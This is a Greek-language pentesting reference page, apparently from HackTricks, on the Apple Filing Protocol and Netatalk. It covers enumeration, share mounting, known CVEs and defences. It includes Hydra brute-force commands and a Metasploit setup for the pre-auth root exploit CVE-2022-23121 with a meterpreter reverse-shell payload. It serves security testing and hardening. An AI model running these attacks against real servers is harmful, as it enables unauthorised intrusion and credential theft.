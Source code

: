 # 548 - Pentesting Apple Filing Protocol (AFP)

{{#include ../banners/hacktricks-training.md}}

## Basic Information

Το **Apple Filing Protocol** (**AFP**), γνωστό κάποτε ως AppleTalk Filing Protocol, είναι ένα εξειδικευμένο πρωτόκολλο δικτύου που περιλαμβάνεται μέσα στην **Apple File Service** (**AFS**). Είναι σχεδιασμένο να παρέχει υπηρεσίες αρχείων για macOS και το κλασικό Mac OS. Το AFP ξεχωρίζει για την υποστήριξη ονομάτων αρχείων Unicode, δικαιωμάτων τύπου POSIX και ACL, resource forks, ονομασμένων επεκτάσεων χαρακτηριστικών και προηγμένων μηχανισμών κλειδώματος αρχείων.

Αν και το AFP έχει αντικατασταθεί από το SMB στις σύγχρονες εκδόσεις macOS (το SMB είναι το προεπιλεγμένο από το OS X 10.9), εξακολουθεί να συναντάται σε:

* Κληρονομημένα περιβάλλοντα macOS / Mac OS 9
* Συσκευές NAS (QNAP, Synology, Western Digital, TrueNAS…) που ενσωματώνουν τον ανοιχτού κώδικα δαίμονα **Netatalk**
* Δίκτυα μικτής πλατφόρμας όπου το Time-Machine-over-AFP είναι ακόμα ενεργοποιημένο

**Default TCP Port:** **548** (AFP over TCP / DSI)
```bash
PORT     STATE SERVICE
548/tcp  open  afp
```
---

## Enumeration

### Γρήγορη πληροφορία για banner / διακομιστή
```bash
# Metasploit auxiliary
use auxiliary/scanner/afp/afp_server_info
run RHOSTS=<IP>

# Nmap NSE
nmap -p 548 -sV --script "afp-* and not dos" <IP>
```
Χρήσιμα σενάρια NSE για AFP:

| Σενάριο | Τι κάνει |
|--------|--------------|
| **afp-ls**            | Λίστα διαθέσιμων όγκων και αρχείων AFP |
| **afp-brute**         | Επιθέσεις brute-force κωδικών πρόσβασης κατά της σύνδεσης AFP |
| **afp-serverinfo**    | Εξαγωγή ονόματος διακομιστή, τύπου μηχανής, έκδοσης AFP, υποστηριζόμενων UAMs, κ.λπ. |
| **afp-showmount**     | Λίστα κοινών πόρων μαζί με τα ACL τους |
| **afp-path-vuln**     | Ανίχνευση (και δυνατότητα εκμετάλλευσης) διαδρομής καταλόγου, CVE-2010-0533 |

Το σενάριο brute-force NSE μπορεί να συνδυαστεί με Hydra/Medusa αν απαιτείται περισσότερος έλεγχος:
```bash
hydra -L users.txt -P passwords.txt afp://<IP>
```
### Αλληλεπίδραση με κοινές χρήσεις

*macOS*
```bash
# Finder → Go → "Connect to Server…"
# or from terminal
mkdir /Volumes/afp
mount_afp afp://USER:[email protected]/SHARE /Volumes/afp
```
*Linux* (χρησιμοποιώντας `afpfs-ng` ‑ πακέτο σε πολλές διανομές)
```bash
apt install afpfs-ng
mkdir /mnt/afp
mount_afp afp://USER:[email protected]/SHARE /mnt/afp
# or interactive client
afp_client <IP>
```
Μόλις τοποθετηθεί, θυμηθείτε ότι οι κλασικοί πόροι Mac αποθηκεύονται ως κρυφά `._*` αρχεία AppleDouble – αυτά συχνά περιέχουν ενδιαφέροντα μεταδεδομένα που παραλείπουν τα εργαλεία DFIR.

---

## Κοινές Ευπάθειες & Εκμετάλλευση

### Αλυσίδα RCE χωρίς αυθεντικοποίηση Netatalk (2022)

Πολλοί προμηθευτές NAS παρέδωσαν **Netatalk ≤3.1.12**. Η έλλειψη ελέγχου ορίων στη `parse_entries()` επιτρέπει σε έναν επιτιθέμενο να δημιουργήσει έναν κακόβουλο **AppleDouble** επικεφαλίδα και να αποκτήσει **απομακρυσμένο root** πριν από την αυθεντικοποίηση (**CVSS 9.8 – CVE-2022-23121**). Μια πλήρης ανάλυση από την NCC Group με PoC που εκμεταλλεύεται το Western-Digital PR4100 είναι διαθέσιμη.

Το Metasploit (>= 6.3) περιλαμβάνει το module `exploit/linux/netatalk/parse_entries` το οποίο παραδίδει το payload μέσω DSI `WRITE`.
```bash
use exploit/linux/netatalk/parse_entries
set RHOSTS <IP>
set TARGET 0   # Automatic (Netatalk)
set PAYLOAD linux/x64/meterpreter_reverse_tcp
run
```
Αν ο στόχος εκτελεί μια επηρεαζόμενη έκδοση firmware QNAP/Synology, η επιτυχής εκμετάλλευση αποφέρει ένα shell ως **root**.

### Heap overflow OpenSession Netatalk (2018)

Οι παλαιότερες εκδόσεις Netatalk (3.0.0 - 3.1.11) είναι ευάλωτες σε μια εγγραφή εκτός ορίων στον χειριστή **DSI OpenSession** που επιτρέπει την εκτέλεση μη αυθεντικοποιημένου κώδικα (**CVE-2018-1160**). Μια λεπτομερής ανάλυση και PoC δημοσιεύθηκαν από την Tenable Research.

### Άλλα αξιοσημείωτα ζητήματα

* **CVE-2022-22995** – Ανακατεύθυνση symlink που οδηγεί σε αυθαίρετη εγγραφή αρχείου / RCE όταν είναι ενεργοποιημένο το AppleDouble v2 (3.1.0 - 3.1.17).
* **CVE-2010-0533** – Διέλευση καταλόγου στο Apple Mac OS X 10.6 AFP (ανιχνεύθηκε από `afp-path-vuln.nse`).
* Πολλαπλά σφάλματα ασφάλειας μνήμης διορθώθηκαν στο **Netatalk 4.x (2024)** – προτείνεται η αναβάθμιση αντί της επιδιόρθωσης μεμονωμένων CVEs.

---

## Συστάσεις Άμυνας

1. **Απενεργοποιήστε το AFP** εκτός αν είναι απολύτως απαραίτητο – χρησιμοποιήστε SMB3 ή NFS αντί αυτού.
2. Αν το AFP πρέπει να παραμείνει, **αναβαθμίστε το Netatalk σε ≥ 3.1.18 ή 4.x**, ή εφαρμόστε firmware προμηθευτή που επιστρέφει τις επιδιορθώσεις του 2022/2023/2024.
3. Επιβάλετε **ισχυρούς UAMs** (π.χ. *DHX2*), απενεργοποιήστε τις συνδέσεις σε καθαρό κείμενο και τις συνδέσεις επισκεπτών.
4. Περιορίστε το TCP 548 σε αξιόπιστα υποδίκτυα και τυλίξτε το AFP μέσα σε ένα VPN όταν εκτίθεται απομακρυσμένα.
5. Σαρώστε περιοδικά με `nmap -p 548 --script afp-*` σε CI/CD για να εντοπίσετε κακόβουλες / υποβαθμισμένες συσκευές.

---

### [Brute-Force](../generic-hacking/brute-force.md#afp)

## Αναφορές

* Netatalk Security Advisory CVE-2022-23121 – "Αυθαίρετη εκτέλεση κώδικα στο parse_entries" <https://netatalk.io/security/CVE-2022-23121>
* Tenable Research – "Εκμετάλλευση ενός σφάλματος 18 ετών (CVE-2018-1160)" <https://medium.com/tenable-techblog/exploiting-an-18-year-old-bug-b47afe54172>
{{#include ../banners/hacktricks-training.md}}
